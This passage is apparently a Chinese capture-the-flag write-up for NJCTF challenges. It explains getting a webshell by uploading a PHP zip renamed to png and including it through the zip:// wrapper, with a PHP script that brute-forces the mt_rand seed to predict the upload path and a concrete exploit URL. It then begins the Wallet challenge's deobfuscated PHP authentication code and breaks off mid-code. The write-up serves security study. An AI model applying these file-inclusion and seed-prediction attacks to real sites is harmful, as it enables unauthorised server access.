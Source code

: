 脸黑，比赛的时候脚本没跑完😢

这题的思路，和以前做的一个题思路很像（HCTF的兵者多诡？）。

先伪协议读源码，然后上传一个php压缩包（改名为png），再伪协议（zip或phar）读取马，得到shell。这次的主要问题在于，题目把路径加了一个前缀，需要爆破随机数种子才能利用。

爆破随机数种子(session_id为我们的 PHPSESSID，hash为SESSI0N)

记得在文件头设置一下运行时间无限ini_set('max_execution_time', '0');

```php
for($i=0;$i<=999999999;$i++){
    $seed =$i;
    mt_srand($seed);
    $ss = mt_rand();
    $session_id="kfm3fk6doepaefpaa9al32h8j7";
    $hash1 = md5($session_id. $ss);
    $hash2 = "72a6022fd34bf1980ea8d20aafa3bd2a";
    if($hash1===$hash2){
        echo "we get seed:".$i;
        break;
    }
    if($i==999999999){
        echo "run down!we can't get it!";
        break;
    }
}
echo './uP1O4Ds/' . random_str() . '_';
```

运行结果：

![getseed](https://momomoxiaoxi.com/img/post/NJCTF/getseed.png)

http://218.2.197.235:23735//index.php?page=zip://uP1O4Ds/hz3CZpGyYKnjH51V6fVYvCmpGXrIzeWm_test.png%23test

再请求一下即可

![getshell](https://momomoxiaoxi.com/img/post/NJCTF/getshell.png)

连接一下，看一波

![upload](https://momomoxiaoxi.com/img/post/NJCTF/upload.png)

这里有一个小技巧，可以迅速爆破mt_seed:[http://www.openwall.com/php_mt_seed/](http://www.openwall.com/php_mt_seed/)

### Wallet

扫一波目录，能得到一个www.zip的文件。

（弱密码永远跑不出来orz。。。后来，别人给了个弱密码njctf2017）

然后，代码有混淆，随便找个网站解开混淆



```Php
<?php
 require_once("db.php"); 
 $auth = 0; 
 if (isset($_COOKIE["auth"])) { 
 	$auth = $_COOKIE["auth"]; 
 	$hsh = $_COOKIE["hsh"]; 
 	if ($auth == $hsh) { 
 		$auth=0; 
 		}else if (sha1((string)$hsh) == md5((string)$auth)) { 
 			$auth = 1; 
 		}else{ 
 			$auth=0; 
 		} 
```